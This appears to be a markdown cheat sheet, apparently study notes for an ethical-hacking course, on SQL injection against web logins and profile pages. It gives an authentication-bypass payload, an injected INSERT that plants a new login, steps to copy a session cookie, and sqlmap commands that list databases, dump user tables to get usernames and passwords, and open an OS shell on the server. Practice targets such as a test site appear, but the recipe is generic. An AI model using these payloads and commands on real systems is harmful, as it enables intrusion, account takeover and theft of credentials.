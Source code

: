 ```bash
set RPORT 80
run
```
#  SQL Injections
```
1- Auth Bypass-  hi'OR 1=1 --
2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--
3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs
4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables
5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)
6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell
6.1 In the shell type-   TASKLIST  (to view the tasks)
6.2 Use systeminfo for windows to get all os version
6.3 Use uname -a for linux to get os version


1. now in parrot os, open firefox and login into the website given and details.
2. Go to profile and and right cleck and inspect and console type “document.cookie” you will get one value.
3. Open the terminal and type the below commands to get the password of other user.
4. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=;" –-dbs
5. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moveiscope – -tables
6. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moviescope -T user-Login – -dump
7. You will get all the Useraname and Passwords of the website.

```bash
#Get all databases using sqlmap
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
#Get tables from a selected database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name --tables 
#Get all columns from a selected table_name in the database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name --columns
#Dump the data from the columns 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name -C column_name --dump
```
